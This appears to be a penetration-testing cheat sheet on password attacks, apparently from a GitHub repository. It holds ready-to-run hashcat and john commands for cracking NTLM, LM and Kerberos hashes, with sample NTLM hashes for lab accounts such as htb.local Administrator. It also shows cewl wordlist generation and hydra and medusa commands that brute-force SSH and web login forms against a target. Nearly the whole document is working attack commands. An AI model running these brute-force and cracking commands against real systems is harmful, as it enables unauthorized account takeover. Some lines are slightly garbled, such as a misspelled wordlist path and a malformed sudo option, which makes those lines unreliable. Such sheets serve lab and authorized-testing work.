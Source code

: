 ### hashcat - to find the -m value for hashes
```
hashcat --example-hashes | grep -i  krb 
```
NTLM hash crack - I have multiple hashes
```
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::

sudo hashcat -m 1000 hashes-ntlm.txt /usr/share/wordlists/rockyou.txt
-----
**OR**
-----
sudo --user hashcat -m 1000 hashes-ntlm.txt /usr/share/wordlists/rockyou.txt
----
**OR**
----
sudo hashcat -m 1000 hashes-ntlm.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule
```    

### Cewl
```
cewl http://<targetip>/ -m 6 -w cewl.txt
wc -l cewl.txt
john --wordlist=cewl.txt --rules --stdout > mutated.txt
wc mutated.txt
medusa -h <targetip> -u admin -P mutated.txt -M http -n 80 -m DIR:/directory/to/login/panel -T 30
```
-----------------------------------

### Hydra
```
hydra -l root -P /usr/share/wordlısts/rockyou.txt <targetip> ssh
hydra -L userlist.txt -P /usr/share/wordlısts/rockyou.txt <targetip> -s 22 ssh -V
```

### crack web passwords
http-post-form can change as user module changes
Invalid: what message does the page give for wrong creds
for parameters check with burp
```
hydra -l admin -P /usr/share/seclists/Passwords/10k_most_common.txt <targetip> http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```
-----------------------------------

### Medusa
```
medusa -h <targetip> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/test -T 10
```
-----------------------------------

### Hashcat
```
# learn the hash type from hashcat.net example hashes page and pass as its m value
# or you can learn with the following command
hashcat -h | grep -i lm
hashcat -m 1600 hashes /usr/share/wordlists/rockyou.txt
```
-----------------------------------

### LM/NTLM
```
hashcat -h | grep -i lm 
hashcat -m 3000  hashes --rules --wordlist=/usr/share/wordlists/rockyou.txt
```
https://hashkiller.co.uk/

------------------------------------------

When you find some digits, check if it's 32 bit
echo -n ....... | wc -c

------------------------------------------
### John
```
john hashes.txt --rules --wordlist=/usr/share/wordlists/rockyou.txt 
```
